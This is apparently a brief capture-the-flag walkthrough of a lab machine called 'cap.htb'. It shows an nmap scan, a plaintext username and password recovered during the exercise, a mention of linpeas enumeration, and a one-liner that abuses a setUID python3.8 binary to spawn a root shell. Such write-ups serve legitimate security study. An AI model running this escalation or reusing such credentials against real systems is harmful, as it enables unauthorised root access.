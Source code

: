 Let's do the default steps:
`nmap 10.10.10.245  -Pn -A` and add `10.10.10.245 cap.htb` to `/etc/hosts`




![[Pasted image 20250428185603.png]]
![[Pasted image 20250428185615.png]]

`PASS Buck3tH4TF0RM3!` 
`USER nathan`

There a thing called `linpeash.sh` we run to scan the whole machine for any vulnerabilities. It gives a bunch of CVEs.
One peculiar thing is the `python3.8` executable has it's setUID bit set! So we can run this program as `root` user and get the shell!

`python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'`



